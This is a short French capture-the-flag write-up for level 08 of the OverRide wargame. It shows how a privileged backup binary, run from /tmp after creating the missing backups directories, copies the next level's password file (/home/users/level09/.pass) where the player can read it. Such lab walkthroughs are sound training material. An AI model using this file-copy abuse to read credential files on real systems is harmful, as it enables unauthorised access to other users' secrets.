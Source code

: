 # Level 08

Dans ce niveau, on remarque que le binaire nous renvoie :
```sh
level08@OverRide:~$ ./level08
Usage: ./level08 filename
ERROR: Failed to open ./backups/.log
```

Ce qui nous intéresse le plus dans ce retour est le code d'erreur.

Après plusieurs test, On remarque que le projet écrit une copie du fichier que nous donnons
en paramètre dans le dossier `./backup/`.

Donc, en étant malin, on peut faire :
```sh
level08@OverRide:/tmp$ ~/./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

Or, il n'arrive toujours pas à trouver le dossier backup. Il suffit de lui créer les dossiers
qui lui manque.

```sh
mkdir -p /tmp/backups/home/users/level09
~/level08 /home/users/level09/.pass
```

Vous n'avez plus qu'à récupérer le pass dans le dossier.
